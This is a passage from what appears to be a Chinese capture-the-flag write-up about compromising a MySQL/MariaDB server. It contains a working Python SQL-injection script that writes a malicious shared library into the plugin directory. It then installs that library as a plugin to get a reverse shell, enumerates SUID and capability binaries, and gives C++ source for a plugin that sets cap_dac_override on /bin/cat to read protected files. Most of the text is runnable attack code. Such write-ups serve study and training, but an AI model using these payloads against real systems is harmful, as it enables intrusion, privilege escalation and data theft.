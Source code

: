 ```python
import requests
f = open("exp.so", 'rb')
url = ""
xid = "1; select unhex('" + ''.join(['%02X' % b for b in bytes(f.read())]) + "') into dumpfile '/mysql/plugin/lolita.so';"
res = requests.post(url, data={
    "id": xid
})
print(res.text)
```

再安装插件，同时监听反弹shell的端口

```mysql
INSTALL PLUGIN plugin_name SONAME 'lolita.so'
# 安装一次就反弹一次 还是很好用的
```

反弹得到的是mysql用户，还需要提权

```bash
# suid
find / -user root -perm -4000 -print 2>/dev/null
# getcap
getcap -r / 2>/dev/null
```

![image-20231023230036669](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20231023230036669.png)

说实话、之前真不知道可以用`getcap`这个命令来提权

Capabilities是linux权限管理的一种方式，让权限精确到文件读写、网络访问、改变文件权限等每一个小项，这里的mariadb拥有`cap_setfcap`权限(effective and permitted)，可以给其它文件设置cap

如何利用这一点来提权呢？虽然mariadb的交互模式下可以运行shell-command，但capbilities无法给到执行这个命令的环境（继承不了），反弹回来的shell也不能运行交互的mariadb

![image-20231024111906896](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20231024111906896.png)

唯一方案是再写一个.so插件 让mariadb client为/bin/cat设置`cap_dac_override=eip`，忽略文件权限，让mysql用户也能用cat读本来没权限的/flag

```cpp
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/capability.h>


void lshell(){
    cap_t caps = cap_from_text("cap_dac_override=eip");
    cap_set_file("/bin/cat", caps);
    printf("setcap finished\n");
}

class LOLITA {
public:
    LOLITA(){
        lshell();
    }
};
LOLITA _mysql_client_plugin_declaration_;
// compile: g++ expcap.cpp -shared -fPIC -o cap.so
```
